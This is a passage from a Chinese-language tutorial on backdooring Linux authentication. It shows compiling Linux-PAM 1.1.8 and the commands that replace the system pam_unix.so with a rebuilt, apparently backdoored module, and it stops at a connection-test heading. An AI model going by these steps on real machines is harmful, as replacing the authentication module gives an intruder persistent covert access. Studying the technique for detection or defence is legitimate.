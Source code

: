 ![image-20230822091342239](assets/image-20230822091342239.png)

#### 1.2.4.2. 编译安装

注意到这边就无法编译了，我也不知道，后门我是替换了一个pam的包才成功，虽然网上确实还存在这种利用的手法，但是很多文章都是几年前的了，可能也被淘汰了。

```
cd linux-pam-Linux-PAM-1_1_8
./configure && make
```

![image-20230822100351913](assets/image-20230822100351913.png)

#### 1.2.4.3. 备份配置

备份原有pam_unix.so,防止出现错误登录不上，复制新PAM模块到/lib64/security/目录下。

```
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bakcp
cd modules/pam_unix/.libs
cp pam_unix.so /usr/lib64/security/pam_unix.so
```

![image-20230822100644794](assets/image-20230822100644794.png)

### 1.2.5. 连接测试
